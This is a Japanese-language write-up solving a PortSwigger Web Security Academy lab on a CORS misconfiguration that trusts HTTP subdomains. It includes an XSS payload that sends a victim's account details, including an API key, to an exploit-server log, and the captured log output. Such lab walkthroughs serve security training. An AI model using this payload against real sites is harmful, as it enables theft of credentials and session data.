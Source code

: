# 信頼できる安全でないプロトコルによる CORS の脆弱性

次のハッキングラボを実施  
https://portswigger.net/web-security/cors/lab-breaking-https-attack  
この Web サイトは、プロトコルに関係なくすべてのサブドメインを信頼するという点で、 安全でない CORS 構成を採用しています。

- 1. BurpSuite を起動して Proxy タブからブラウザを立ち上げます
- 2. ハッキングラボにアクセスします
- 3. 一般ユーザーでログインします
- 4. GET /accountDetails HTTP/2 リクエストを send to repeater します
- 5. リクエストに origin ヘッダーを付けて送信します

```
GET /accountDetails HTTP/2
Host: 0a4f002b0342cd358017949000df00bd.web-security-academy.net
Cookie: session=v0AFgBWStP9KUbCbWr1YQSD1TeOcbGzu
Sec-Ch-Ua:
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.111 Safari/537.36
Sec-Ch-Ua-Platform: ""
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a4f002b0342cd358017949000df00bd.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate
Accept-Language: ja,en-US;q=0.9,en;q=0.8
Orign: http://subdomain.web-security-academy.net
```

レスポンス。

```
HTTP/2 200 OK
Access-Control-Allow-Credentials: true
```

- 6. 商品ページに移動し、在庫チェックボタン押下
     ![1](https://github.com/pea-sys/web-security-experiments/assets/49807271/26268579-a42b-4a3f-a01f-82f6dcedbc38)

- 7. エクスプロイトサーバに移動します
- 8. Body に次の内容を入力します

```html
<script>
  document.location =
    "http://stock.YOUR-LAB-ID.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1";
</script>
```

- 9. Store ボタン押下後に deliver exploit to victim ボタン押下
- 10. Access log を見ると他者の apikey が盗めます

```
10.0.3.205      2023-08-25 23:16:29 +0000 "GET /log?key={%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22IPyUGVy9xTltyYJbM80H0tntWGDUlU6J%22,%20%20%22sessions%22:%20[%20%20%20%20%220XQJoHWHLnVRn1fjCWhT8xvkMvlqvSdv%22%20%20]} HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36"
```

- 11. apikey をサブミットしてラボを解決します
